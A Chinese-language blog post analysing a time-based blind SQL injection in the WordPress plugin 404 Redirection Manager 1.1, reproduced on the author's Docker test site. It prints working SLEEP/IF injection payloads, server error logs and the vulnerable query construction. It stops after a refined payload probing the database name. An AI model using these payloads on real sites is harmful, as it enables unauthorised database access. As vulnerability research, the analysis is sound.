 ```yaml
---
layout: post
title: WordPress插件:404 Redirection Manager 1.1 SQL注入
categories: [漏洞]
tags: [WordPress,SQL Injection]
fullview: false
comments: true
---
```

发现这个问题的经过是这样的，原本想着上午逛逛exploit db 看看有没有什么漏洞可以自己搭环境可以搞一搞试试的，逛了一圈发现WordPress的404 Redirection Manager 1.0插件有个注入，提交的时间已经过去很多天了。本着观摩一下poc的心态点开看了看，发现WordPress的插件库里依旧还有这款插件，于是乎下载下来，用docker搭建了一个环境。【docker真好用...

下载下来才发现，这个插件已经更新到了1.1版本，就是在这个漏洞提交后不几天更新的，心一下子就凉了一半，心想着这么快就修了。但是好奇心驱使我还是把环境搭好了，用1.0版本的poc尝试了一下，发现依旧有用，虚惊一场，总之先搞了再说。

首先说下搭建的测试环境:

服务器：Apache

数据库类型：MySQL

数据库版本：5.7.15 

数据库客户端版本：libmysql - 5.5.52

PHP扩展:mysqli 

PHP版本：5.6.26-0+deb8u1

phpMyAdmin版本信息：4.4.14

WordPress版本：4.3.6

先做准备工作，在docker上部署的这个WordPress默认的链接形式是这样的：

<code>http://monburan-wordpress-test.daoapp.io/2016/12/22/sample-post/</code>

这里要将WordPress的链接设置成默认的，像这样：

<code>http://monburan-wordpress-test.daoapp.io/?p=123</code>

首先用1.0版本的poc测试一下：

<pre><code>http://monburan-wordpress-test.daoapp.io/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL</code></pre>

‘字面上’的注入很好理解，利用<code>sleep()</code>进行延时注入，当<code>'a'='a'</code>结果为<code>True</code>，则取0，<code>5-0=5</code>，执行<code>sleep(5)</code>。

为了更好的分析这个漏洞产生的过程，我插入了一条可以触发数据库错误的语句<code>') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'</code>(这里多了一个<code>'</code>),借助后台日志，我尝试着找到了这段注入执行的语句。

<pre><code>[Thu Dec 22 06:55:20.702722 2016] [:error] [pid 187] [client 10.10.79.136:43543]WordPress\xe6\x95\xb0\xe6\x8d\xae\xe5\xba\x93\xe6\x9f\xa5\xe8\xaf\xa2 select * from wp_WP_SEO_Redirection where enabled=1 and cat='link' and blog='1' and regex<>'' and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'' regexp regex or '/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'='SQL'/' regexp regex ) order by LENGTH(regex) desc \xe6\x97\xb6\xe5\x8f\x91\xe7\x94\x9fYou have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) AND ('SQL'' at line 1\xe9\x94\x99\xe8\xaf\xaf\xef\xbc\x8c\xe8\xbf\x99\xe6\x98\xaf\xe7\x94\xb1require('wp-blog-header.php'), wp, WP->main, do_action_ref_array, call_user_func_array, SR_redirect_manager::redirect\xe6\x9f\xa5\xe8\xaf\xa2\xe7\x9a\x84\xe3\x80\x82
</code></pre>

来看看php文件里面写了什么，执行的SQL语句是这样的：

<pre><code>select * from $table_name where enabled=1 
and cat='link' and blog='" . get_current_blog_id() . "'
and regex<>'' and $permalink_regex_options 
order by LENGTH(regex) desc </code></pre>

这里变量<code>$permalink_regex_options</code>指向了<code>('$permalink' regexp regex or '$permalink_alternative'  regexp regex )</code>。

<code>$permalink</code> 和 <code>$permalink_alternative</code> 则分别指向了 <code>get_permalink()</code>，<code>get_alternative_permalink()</code>这两个获取固定链接的函数。

综上，可以整理出完整在数据库中执行的语句：

<pre><code>select * from wp_WP_SEO_Redirection where enabled=1 
and cat='link' and blog='1' and regex<>'' 
and ('/?p=1') AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex or '/?p=1') 
AND (SELECT * FROM (SELECT(SLEEP(5-(IF('a'='a',0,5)))))abc) 
AND ('SQL'='SQL' regexp regex ) order by LENGTH(regex) desc</code></pre>

可以发现，这里<code>sleep</code>执行了两次，所以执行的时间应该在10秒以上。从数据库上跑一下，成功了，时间也没问题。
![pic](www.baidu.com)

再精简一下注入语句<code>') AND (SELECT * FROM (SELECT(IF(LENGTH(database())>32,SLEEP(5),0)))abc) AND ('SQL'='SQL</code>


